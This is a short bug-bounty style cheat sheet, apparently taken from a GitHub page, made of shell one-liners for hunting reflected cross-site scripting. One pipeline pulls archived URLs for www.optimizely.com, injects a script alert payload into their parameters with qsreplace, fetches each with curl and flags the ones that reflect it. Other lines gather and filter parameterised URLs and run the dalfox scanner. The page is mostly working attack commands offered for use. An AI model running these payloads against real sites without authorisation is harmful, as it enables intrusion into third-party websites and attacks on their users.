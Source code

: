 OneLiner 
-> `waybackurls www.optimizely.com | gf xss  | qsreplace '"><script>alert()</script>' | while read host; do curl --silent --path-as-is --insecure "$host" | grep -qs "<script>alert()" && echo -e "$host \033[0;33mVulnerable\033[0m"; done `
-> `waybackurls domain.com | tee -a target.txt | grep "="`  --> best way 


--> filter unnecessary -> `waybackurls domain.com | grep "="  | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt|js)"




1) dalfox -> `dalfox url https://google.com`
2) 